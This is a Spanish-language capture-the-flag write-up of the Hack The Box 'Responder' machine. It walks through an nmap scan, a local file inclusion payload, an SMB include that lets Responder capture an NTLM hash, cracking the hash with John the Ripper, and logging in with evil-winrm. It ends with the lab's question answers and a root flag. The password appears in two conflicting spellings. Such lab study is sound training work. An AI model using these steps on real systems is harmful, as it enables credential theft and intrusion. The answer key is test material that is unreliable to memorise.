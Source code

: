 ```yaml
---
layout: single
title: Responder - Hack The Box
date: 2022-06-15
classes: wide
categories:
  - hackthebox
  - infosec
tags:
  - responder
  - web
  - tools
---
```


# Responder - HackTheBox

![[Pasted image 20220427153530.png]]

Realizamos un escaneo de ==nmap== para identificar los puertos abiertos y servicios.

```
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```

Resultado del escaneo:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```

Visitamos el servidor web corriendo en el puerto 80 mediante el navegador (Firefox).

![[Pasted image 20220427161647.png]]
![[Pasted image 20220427161628.png]]

Nos redirige a una pagina web llamada **unika.htb**. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo **/etc/hosts** para poder visualizar la pagina web.

![[Pasted image 20220427162215.png]]

Ahora ya podemos visualizarla.

![[Pasted image 20220427162345.png]]

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado **french.html** mediante **index.php**

![[Pasted image 20220427162745.png]]

Vamos a pasarle al parámetro "page" la siguiente cadena para saber si es vulnerable a **LFI** y como consecuencia a **path traversal**.

```
../../. ./../../../../../windows/system32/drivers/etc/hosts
```

![[Pasted image 20220427163537.png]]

![[Pasted image 20220427163432.png]]

Como podemos ver existe una vulnerabilidad en esta web.
Regresando al escaneo, el puerto **5985** se encuentra abierto lo que quiere decir que **WinRM** esta disponible. Podemos aprovecharnos del **LFI** de la página web para capturar el **hash NTLM** de la máquina con ayuda de la herramienta **responder**.

Vamos a ejecutar la herramienta con el siguente comando.

```
sudo responder -I tun0

(tun0 es la interfaz de red de nuestra máquina)
```

![[Pasted image 20220427170550.png]]

Verificamos que el servidor **SMB** este activado.

![[Pasted image 20220427170523.png]]

Mientras **responder** esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page.

```
//{our machine ip}/somefile
```

Esto para que la página incluya un "recurso" de nuestro servidor **SMB** y se establezca una conexión.

![[Pasted image 20220427171130.png]]

Vemos en la terminal que se ha capturado el **hash NTLM**.

![[Pasted image 20220427171250.png]]

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta **John The Ripper** .

![[Pasted image 20220427171705.png]]

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![[Pasted image 20220427172056.png]]

A continuación utilizamos la herramienta **evilwinrm** para autenticarnos en el sistema con las credenciales obtenidas.

```
evil-winrm -i {target ip} -u administrator -p badminton
```

![[Pasted image 20220427172504.png]]

Ahora solo queda buscar el archivo ==flag.txt==. Este se encuentra en la ruta `C:\Users\mike\Desktop`.

![[Pasted image 20220427172844.png]]

## Preguntas

1. ¿Cuántos puertos TCP están abiertos en la máquina?
   **3**

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?
   **unika.htb**

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?
   **php**

4. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?
   **page**

5. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
   **../../. ./../../../../../windows/system32/drivers/etc/hosts**

6. ¿Qué significa NTLM?
   **New Technology LAN Manager**

7. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?
   **-I**

8. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.
   **John The Ripper**

9. ¿Cuál es la contraseña para el usuario administrador?
   **batminton**

10. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?
    **5985**

Root Flag:
**ea81b7afddd03efaa0945333ed147fac**

![[Pasted image 20220427134218.png]]
